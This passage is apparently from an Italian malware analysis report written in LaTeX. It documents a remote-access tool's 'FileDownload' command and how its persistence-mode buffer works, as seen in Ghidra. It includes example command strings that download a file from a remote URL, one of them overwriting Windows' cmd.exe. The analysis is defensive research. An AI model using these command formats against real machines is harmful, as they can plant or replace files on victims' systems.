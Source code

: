 \documentclass[
    a4paper, %
    11pt %
]{article}
\newcommand{\pic}[4]{\begin{figure}[H]
            \centering
            \texttt{[image: \#1]}
            \caption{#2}
            \label{fig:#1}
            \end{figure}}
\begin{document}
\begin{itemize}
            \item \textbf{FileDownload} \textit{Scarica un file da server a PC locale}
            
                UserCode: "9" (\texttt{functionCode = 0}) 
                
                Argomenti aggiuntivi?: Si
                
                ArgSplitterToken: whitespace 
                
                Arg1[Obbligatorio]: URL server remoto
                
                Arg2[Obbligatorio]: Path file su PC locale (deve includere carattere backslash)
                
                EsempioComando1: \texttt{9|http://example.com/home/index.html C:\textbackslash Windows\textbackslash System32\textbackslash cmd.exe}

                EsempioComando2: \texttt{9|http://example.com/index.html .\textbackslash myfilename.txt}
                
        \end{itemize}

        \section{Meccanismi di persistenza}\label{sect:persist}

        Gli indirizzi delle \texttt{push} in figura \ref{fig:adv_known_6_persistencymode_cpy}, puntano
        a queste stringhe:
        
        \pic{persistmodes}{Modalità di persistenza utilizzabili dal malware}{12cm}{7cm}

        La jump sulla prima riga, sempre in figura \ref{fig:adv_known_6_persistencymode_cpy}, salta su una delle \texttt{push} 
        in base al valore di \texttt{idx} (che sarebbe un registro, ma Ghidra gli ha assegnato un nome di 
        variabile)
        che per la calling convention usata, passa l'argomento della stringa source  a \texttt{strcpy} e 
        come buffer destinatario l'indirizzo sullo stack di \texttt{persistencyMode} (in figura 
        \ref{fig:adv_known_6_persistencymode}). 
        
        Per come viene usata, \texttt{persistencyMode}
        indicherebbe, all'utilizzo del comando sysinfo, una delle modalità di persistenza usata dal malware.

        Il problema è che di default il buffer \texttt{persistencyMode} è vuoto e quindi non è attivo alcun
        meccanismo (evidente anche dal fatto che al riavvio del sistema il malware non è attivo, ad esempio 
        attendendo connessioni tramite netcat), ma non è noto/esposto alcun modo da parte del malware per 
        attivare uno dei meccanismi.
\end{document}
